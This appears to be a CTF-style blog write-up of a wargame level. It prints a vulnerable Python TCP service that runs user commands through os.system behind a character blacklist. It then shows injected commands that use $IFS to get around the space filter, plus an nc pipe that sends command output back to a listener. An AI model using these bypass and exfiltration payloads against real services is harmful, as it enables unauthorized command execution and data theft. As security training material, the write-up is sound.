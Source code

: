 ![Logo](/assets/images/belts-brown.png)


In this post we'll continue with the third level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**. We will be dealing with another classic vulnerability - _shell command injection_. I really enjoyed this level and I believe it is quite clever.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)
* [Binary Master: Ensign - Level 5](https://livz.github.io/2016/02/09/binary-master-ensign-5.html)
* [Binary Master: Lieutenant - Level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html)

Before we began, here's a list of resources containing different tricks to bypass filters meant to prevent command injection:
* [OS Command execution](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/os-cmd-execution)
* [Bypassing bash command injections restrictions](http://thomasforrer.blogspot.co.uk/2014/07/bypassing-bash-command-injections.html)
* [Command Injection Without Spaces](http://www.betterhacker.com/2016/10/command-injection-without-spaces.html)
* [Bash Brace Expansion Cleverness](https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/)
 
## 0 - Discovery
```python
#!/usr/bin/env python

import sys
import SocketServer
import os
import string
import threading

HOST = '127.0.0.1'
PORT = 9999
PASSWORD = "iknowthepassword"

class SysTCPHandler(SocketServer.BaseRequestHandler):

    def handle(self):
        self.request.sendall('Password: ')
        
        if self.request.recv(1024).strip() == PASSWORD:                    [1]
            self.request.sendall('$ ')
            cmd = self.request.recv(1024)
    
            while len(cmd) > 0:
                os.system(self.filter(cmd))
                self.request.sendall('> output sent to console\n')
                self.request.sendall('$ ')
                cmd = self.request.recv(1024)

    def filter(self, cmd):                                                 [2]
        # We only want people to pass arguments
        bad_chars = " \t<"

        return cmd.translate(None, bad_chars);

if __name__ == '__main__':
    # We don't need this anymore since it's provided by the upstart service
    #os.chroot('/chroot')
    
    try:
        os.setgid(1005)
        os.setuid(1005)
    except OSError, e:
        sys.exit(-1)
    
    server = SocketServer.ForkingTCPServer((HOST, PORT), SysTCPHandler)
    server.serve_forever()
```

Let's spend a few moments to understand how this program works. Notice that upon starting, the program changes its group and user ids to level4 (uid=1005, gid=1005):

```python
    try:
        os.setgid(1005)
        os.setuid(1005)
    except OSError, e:
        sys.exit(-1)
```

There is also an indication that the application will be chroot-ed to **/chroot**. If we inspect this folder, we can see it's owned by root, with no write permissions for other users. That means we'll have a problem - **the python script will not be able to write anything!**:

```
drwxr-xr-x  8 root root  4096 May 12 12:42 chroot
```

Inside this folder we have an interesting file, for which the python script **will have** access - _password.txt_:

```
-rw-r-----  1 root level4   18 May 12 12:36 password.txt
```

After dealing with permissions, the script starts a TCP server listening on port 9999. After checking a hardcoded password at **[1]**, the script will read a command from the user, filter it and then execute it. Filtering is done at **[2]**, based on a blacklist of forbidden characters, including _Space_, _Tab_ and _<_.

## 1 - Vulnerability
 
Although having this blacklist might sound like a good idea (definitely better than nothing), in practice most of the times it is a bad idea to filter known-bad input from user. Attackers are usually very creative.

## 2 - Exploit
So let's see what's the problem. We have two issues:
* First one basically reduces to executing commands without whitespaces. 
* Secondly, we need a way to see the responses.

### Executing commands
The python script executes commands using the following syntax:

```python
os.system(filtered_cnd)
```

According to the [documentation](https://docs.python.org/2/library/os.html#os.system), _os.system_ is implemented by calling the Standard C function **_system()_**. Going further, the [man page](http://man7.org/linux/man-pages/man3/system.3.html) for _system_ function states:

```
       The system() library function uses fork(2) to create a child process
       that executes the shell command specified in command using execl(3)
       as follows:

           execl("/bin/sh", "sh", "-c", command, (char *) 0);
```           

The resources refenreced in the beginning usggest that the **$IS** environment variable might be a good place to start. After playing with different combinations locally, I've noticed that it works fine, but whenever $IFS is followd by a number or letter, they together get interpreted a a single variable. My workaround was to define another variable in those cases. 

So let's see how we can introduce a simple delay, which signifies that the command injection was successful:

```bash
$ python -c 'import os; os.system("T=10&&sleep$IFS$T")'
```

Pasting the same command into the shell of level4 produces a 10-seconds delay - it worked!


### Getting command results

Since there is no possibility to write anything on the disk and also we cannot view the output of our commands, we need to think of another way. Let's be creative. Since this level is a lot about networking, I'll use the Swiss Army Knife **nc** utility to forward any results to me. I'll establish a listener on a port greater than 1024 then trick the filter to accept my command:

```bash
(on a terminal)
$  nc -lvvp 2000

(in the level4 console)
$ MSG=hello&&IP=0&&PORT=2000&&echo$IFS$MSG|nc$IFS-nvv$IFS$IP$IFS$PORT
```

Strangely, however, nothing happens. After some thinking, I realised that _nc_ program inside the chroot environment is just a symbolic link. Fortunately, **nc.openbsd** is also present in /chroot/bin:

```
$ ls -alh /chroot/bin/nc
lrwxrwxrwx 1 root root 20 May 12 12:36 /chroot/bin/nc -> /etc/alternatives/nc
$ ls -alh /chroot/etc/alternatives/nc
ls: cannot access /chroot/etc/alternatives/nc: No such file or directory
$ ls -alh /chroot/bin/nc.openbsd 
-rwxr-xr-x 1 root root 31K May 12 12:36 /chroot/bin/nc.openbsd
```

Let's see if we can get a simple message back:
![hello](/assets/images/bm8-0.png)

![borat](/assets/images/bm8-1.png)

## 3 - Profit

